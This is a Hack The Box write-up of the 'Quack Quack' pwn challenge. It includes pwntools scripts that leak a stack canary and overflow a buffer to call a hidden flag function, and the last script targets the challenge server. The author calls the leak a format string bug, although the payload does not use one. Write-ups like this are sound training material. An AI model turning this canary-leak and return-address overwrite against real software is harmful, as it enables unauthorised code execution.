

# Quack Quack - Writeup

**Platform:** *Hack The Box*

**Category:** *pwn*

**Difficulty:** *very easy*

**Link:** https://app.hackthebox.com/challenges/Quack%2520Quack


## Solution

I started by checking some basic information about the binary:

<p align="center">

</p>
<p align="center">

</p>

Next, I executed the binary to understand its execution flow:

<p align="center">

</p>
I needed to find a way to progress further in the program. So, I disassembled the binary and found the following code:

<p align="center">

</p>
<p align="center">

</p>
From this, I noticed that the input had to be "Quack Quack "**:

<p align="center">

</p>

After that input, the binary produced more output. I then analyzed the next input processing code:

<p align="center">

</p>
<p align="center">

</p>

I also found a hidden function called `duck_attack`, which wasn’t reachable through the normal control flow and returned the flag:

<p align="center">

</p>
<p align="center">

</p>

To reach it, I needed to overwrite the return address, but the binary had a **stack canary**, which complicated things.

In the code handling the first input, I noticed a call to `strstr` which searches for a pattern in the string and returns everything from the matched part onward. The `printf` output added a 0x20 (32-byte) padding, so only the bytes after that were displayed:

<p align="center">

</p>

To leak the **stack canary**, I used a **format string vulnerability** in the `printf` function. There were 120 bytes (`0x88 - 0x10`) between the first input buffer and the canary:

<p align="center">

</p>

In addition, there was a 32-byte padding, so I needed 88 bytes of padding, the string `"Quack Quack "`, and one more byte to prevent a null terminator from stopping `printf`. I wrote the following script to leak the canary:

```python
from pwn import *

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

p.interactive()
```

<p align="center">

</p>

Then I modified the script to extract just the canary:

```python
from pwn import *

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]
print(data)

p.interactive()
```
<p align="center">

</p>

After leaking the canary, I proceeded to overflow the second buffer. It required 88 bytes of padding (`0x68 - 0x10`), the canary, a saved `rbp`, and the address of `duck_attack`. I wrote this script:

```python
from pwn import *

elf = context.binary = ELF('./quack_quack')
duck_attack = elf.symbols['duck_attack']

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b'\0' + data)

p.sendafter('> ', flat([b'A' * 88, canary, b'A' * 8, duck_attack]))

p.interactive()
```
<p align="center">

</p>

That gave me a fake flag locally. To get the real flag, I modified the script to connect via `netcat`:

```python
from pwn import *

elf = context.binary = ELF('./quack_quack')
duck_attack = elf.symbols['duck_attack']

context.log_level = 'debug'

p = remote('94.237.53.189', 41528)

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b'\0' + data)

p.sendafter('> ', flat([b'A' * 88, canary, b'A' * 8, duck_attack]))

p.interactive()
```

And I got a flag:

<p align="center">

</p>
